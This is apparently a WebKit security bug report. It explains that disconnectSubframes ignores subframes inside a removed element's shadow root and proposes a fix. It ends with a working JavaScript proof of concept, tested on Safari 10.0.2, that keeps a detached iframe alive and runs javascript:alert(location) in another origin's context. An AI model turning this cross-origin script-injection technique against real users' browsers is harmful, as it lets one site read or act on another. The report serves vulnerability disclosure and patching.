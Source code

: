When an element is removed from a document, the function |disconnectSubframes| is called to detach its subframes(iframe tag, object tag, etc.).

Here is a snippet of |disconnectSubframes|.

void disconnectSubframes(ContainerNode& root, SubframeDisconnectPolicy policy)
{
    ...
    Vector<Ref<HTMLFrameOwnerElement>> frameOwners;

    if (policy == RootAndDescendants) {
        if (is<HTMLFrameOwnerElement>(root))
            frameOwners.append(downcast<HTMLFrameOwnerElement>(root));
    }

    collectFrameOwners(frameOwners, root);

    // Must disable frame loading in the subtree so an unload handler cannot
    // insert more frames and create loaded frames in detached subtrees.
    SubframeLoadingDisabler disabler(root);

    bool isFirst = true;
    for (auto& owner : frameOwners) {
        // Don't need to traverse up the tree for the first owner since no
        // script could have moved it.
        if (isFirst || root.containsIncludingShadowDOM(&owner.get()))
            owner.get().disconnectContentFrame();
        isFirst = false;
    }
}

The bug is that it doesn't consider |root|'s shadowroot. So any subframes in the shadowroot will be never detached.

It should be like:

    ...
    collectFrameOwners(frameOwners, root);

    if (is<Element>(root)) {
        Element& element = downcast<Element>(root);
        if (ShadowRoot* shadowRoot = element.shadowRoot())
            collectFrameOwners(frameOwners, *shadowRoot);
    }
    ...


PoC:
var d = document.body.appendChild(document.createElement("div"));
var s = d.attachShadow({mode: "open"});

var f = s.appendChild(document.createElement("iframe"));

f.onload = () => {
    f.onload = null;

    f.src = "javascript:alert(location)";

    var xml = `
<svg xmlns="http://www.w3.org/2000/svg">
<script>
document.documentElement.appendChild(parent.d);

</sc` + `ript>
<element a="1" a="2" />
</svg>`;

    var v = document.body.appendChild(document.createElement("iframe"));
    v.src = URL.createObjectURL(new Blob([xml], {type: "text/xml"}));
};

f.src = "https://abc.xyz/";

Tested on Safari 10.0.2(12602.3.12.0.1)
